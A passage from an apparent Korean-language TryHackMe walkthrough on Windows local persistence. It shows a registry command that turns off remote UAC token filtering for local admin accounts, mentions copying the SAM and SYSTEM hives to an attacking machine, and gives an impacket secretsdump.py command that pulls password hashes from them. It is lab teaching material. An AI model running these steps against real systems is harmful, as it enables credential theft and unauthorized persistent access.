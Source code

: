 하지만... 해결책이 있을지도 모르겠네요.

접근 가능한 주요 관리자 계정을 통해 다음과 같이 이 기능을 비활성화할 수 있어요:



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_7.png)

이제 thmuser1로 돌아가서 우리 작은 문제가 해결되었는지 확인해 보겠습니다:

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_8.png)



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

오호~ 크리스마스 같은 느낌이야! 이제는 우리 그룹을 효과적으로 활용할 수 있겠네요. SYSTEM과 SAM 파일의 백업을 만들고, 그 후에는 공격용 머신으로 이 파일들을 다운로드할 거에요:

![이미지](/assets/img/2024-06-19-WindowsLocalPersistenceTechniquesTryHackMe_9.png)

이제 secretsdump.py를 사용하여 해시를 추출할 수 있어요:

```js
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
